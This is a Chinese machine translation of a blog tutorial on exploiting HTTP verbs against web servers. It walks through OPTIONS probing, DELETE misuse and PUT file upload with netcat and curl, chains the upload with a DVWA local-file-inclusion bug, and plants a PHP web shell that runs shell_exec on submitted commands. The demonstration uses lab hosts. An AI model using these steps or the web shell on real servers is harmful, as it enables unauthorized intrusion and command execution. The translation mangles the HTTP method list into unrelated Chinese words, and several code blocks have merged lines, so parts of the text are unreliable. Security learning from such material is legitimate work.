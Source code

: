# 利用 HTTP 动词

> 原文：<https://infosecwriteups.com/exploiting-http-verbs-c7b42f365cf4?source=collection_archive---------1----------------------->

HTTP 协议由下列动词或方法组成。

*   得到
*   头
*   邮政
*   放
*   删除
*   连接
*   选择
*   找到；查出

我将展示一些有趣的 HTTP 动词，它们可以用来闯入服务器。嗯，这些攻击可能非常罕见，但请考虑共享🙂

服务器中启用了 OPTIONS 谓词，它可用于查看所有已配置的 HTTP 方法。

```
% nc localhost 80
OPTIONS / HTTP/1.0HTTP/1.1 200 OK
Allow: OPTIONS, TRACE, GET, HEAD, POST
Server: Microsoft-IIS/7.5
Public: OPTIONS, TRACE, GET, HEAD, POST
X-Powered-By: ASP.NET
Date: Sun, 14 Jun 2015 05:31:10 GMT
Connection: close
```

删除动词是一个危险的动词，可能会被误用。如果配置错误，可用于从 web 服务器上删除资源。

```
% nc localhost 80
DELETE  /location/resource HTTP/1.0Date: Sun, 14 Jun 2015 05:01:22 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Set-Cookie: PHPSESSID=ete39c4b0uk83phvucj1ftbsn5; expires=Mon, 15 Jun 2015 05:01:22 GMT; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8
```

该动词可用于将资源上传到服务器。如果配置不当，这也是一个危险的动词。比如，假设我们要写“*”<？PHP echo‘Hello World’；？>* 在新文件中命名为“hello.php”。确保给出正确的有效载荷长度。

```
%  cat -e hello.php 
<?php echo 'Hello World'; ?>$% wc -m hello.php 
29 hello.php% nc localhost 80
PUT /hello.php HTTP/1.0
Content-Type: text/html
Content-Length: 29<?php echo 'Hello World'; ?>
```

PHP 支持 PUT 动词。这是一个示例程序，它将从 PUT 请求中接收数据，并将其保存为“ *myfile* ”。

```
<?php
    $putdata = fopen("php://input", "r");
    $fp = fopen("myfile", "w");
    while ($data = fread($putdata, 1024)) fwrite($fp, $data);
    fclose($fp);
    fclose($putdata);
?>
```

我将把它作为“put.php”保存在 web 服务器的根目录下。
现在我们可以使用 put 动词请求“put.php ”,并发送我们的有效负载。

```
% cat -e phpinfo.php 
<?php phpinfo(); ?>$% wc -m phpinfo.php 
20 phpinfo.php% nc 192.168.1.5 80
PUT /put.php HTTP/1.0
Content-Type: text/html
Content-Length: 20<?php phpinfo(); ?>
HTTP/1.1 200 OK
Date: Mon, 15 Jun 2015 06:48:16 GMT
Server: Apache/2.4.7 (Win32) OpenSSL/0.9.8y PHP/5.4.22
X-Powered-By: PHP/5.4.22
Content-Length: 0
Connection: close
Content-Type: text/html
```

现在，如果你查看" *myfile* "我们的有效载荷应该写得很好。
假设您有一个本地文件包含情况，在这种情况下，我们可以使用 PUT 来包含我们新编写的文件。
这是本地文件包含的一个例子。我将用 DVWA 来演示这一点。

```
<?php
    echo "File included: ".$_REQUEST["page"]."&lt;br&gt;";
    $file =  $_REQUEST["page"];
    include $file;
?>
```

`[http://localhost/dvwa/vulnerabilities/fi/?page=](http://localhost/dvwa/vulnerabilities/fi/?page=)../../../myfile`

![](img/f96106cba92b0f840aecb7d83b9f48b0.png)

假设我们想要上传一个简单的 web shell，我们可以像下面这样做😉

```
% wc -m shell.php 
189 shell.php% nc 192.168.1.5 80
PUT /put.php HTTP/1.0
Content-Type: text/html
Content-Length: 189<?phpprint '<form method="post">
Command: <input type="text" name="__"><br>
<input type="submit">
</form>';if(isset($_POST["__"]))
 print '<pre>'.shell_exec($_POST["__"]).'</pre>';?>
HTTP/1.1 200 OK
Date: Mon, 15 Jun 2015 07:39:42 GMT
Server: Apache/2.4.7 (Win32) OpenSSL/0.9.8y PHP/5.4.22
X-Powered-By: PHP/5.4.22
Content-Length: 0
Connection: close
Content-Type: text/html
```

在那之后包括我们的“ *myfile* ”，你就可以在服务器上执行命令了。

![](img/a630b36c0334610b5fd15a4e435d8588.png)

您还可以使用 curl 通过 PUT 轻松上传文件。

```
% curl [http://192.168.1.5/put.php](http://192.168.1.5/put.php) --upload-file shell.php -v
* About to connect() to 192.168.1.5 port 80 (#0)
*   Trying 192.168.1.5...
* connected
* Connected to 192.168.1.5 (192.168.1.5) port 80 (#0)
> PUT /put.php HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 192.168.1.5
> Accept: */*
> Content-Length: 189
> Expect: 100-continue
> 
* additional stuff not fine transfer.c:1037: 0 0
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 100 Continue
* additional stuff not fine transfer.c:1037: 0 0
* We are completely uploaded and fine
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 200 OK
< Date: Mon, 15 Jun 2015 07:47:44 GMT
< Server: Apache/2.4.7 (Win32) OpenSSL/0.9.8y PHP/5.4.22
< X-Powered-By: PHP/5.4.22
< Content-Length: 0
< Content-Type: text/html
< 
* Connection #0 to host 192.168.1.5 left intact
* Closing connection #0
```

感谢阅读！

【1】[http://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html](http://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html)
【2】[https://tools.ietf.org/html/rfc7231](https://tools.ietf.org/html/rfc7231)

*原载于 2015 年 6 月 14 日*[*http://osandamalith.com*](https://osandamalith.com/2015/06/14/exploiting-http-verbs/)*。*
